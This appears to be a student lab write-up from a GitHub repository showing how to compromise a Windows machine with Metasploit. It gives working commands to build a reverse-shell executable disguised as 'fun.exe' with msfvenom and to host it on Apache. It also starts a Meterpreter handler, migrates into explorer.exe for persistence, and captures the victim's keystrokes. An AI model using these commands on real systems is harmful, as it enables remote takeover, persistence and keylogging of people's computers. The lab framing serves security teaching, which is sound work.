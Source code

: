 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![output 1](https://github.com/madhan0809/Compromising-windows-using-Metasploit/assets/119165530/22f1bff7-ba73-4e5a-8974-8de7d74ab3ca)




Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![output 2](https://github.com/madhan0809/Compromising-windows-using-Metasploit/assets/119165530/878b25cd-b6d9-4189-b674-97a1f167cc62)




copy the fun.exe into the apache /var/www/html folder
![output 3](https://github.com/madhan0809/Compromising-windows-using-Metasploit/assets/119165530/06824065-e720-41d3-8026-e95c65c63b9f)


Start apache server
sudo systemctl apache2 start

![output 4](https://github.com/madhan0809/Compromising-windows-using-Metasploit/assets/119165530/b0f7ee57-4fbd-402f-8f3c-6043b53e3b8c)



Check the status of apache2
![output 5](https://github.com/madhan0809/Compromising-windows-using-Metasploit/assets/119165530/0feba05b-d5ec-4948-8564-6a5d8a91dfd9)



Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![output 6](https://github.com/madhan0809/Compromising-windows-using-Metasploit/assets/119165530/4007506a-ea64-4553-bc84-2e7e1499cd8c)




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![output 7](https://github.com/madhan0809/Compromising-windows-using-Metasploit/assets/119165530/1c1180d0-1cd0-44e2-a873-bc140871641c)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![output 8](https://github.com/madhan0809/Compromising-windows-using-Metasploit/assets/119165530/d2146f57-0d21-474a-92a9-7bea166d226b)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![output 9](https://github.com/madhan0809/Compromising-windows-using-Metasploit/assets/119165530/92d07609-474b-4306-9e23-d0092f482e62)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![output 10](https://github.com/madhan0809/Compromising-windows-using-Metasploit/assets/119165530/869b7223-48a2-421c-83b4-e458c4cb9803)



keyscan_dump	Shows the keystrokes captured so far
![output 11](https://github.com/madhan0809/Compromising-windows-using-Metasploit/assets/119165530/9eec4c65-c12d-4a5e-bdfc-7fef59489db9)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
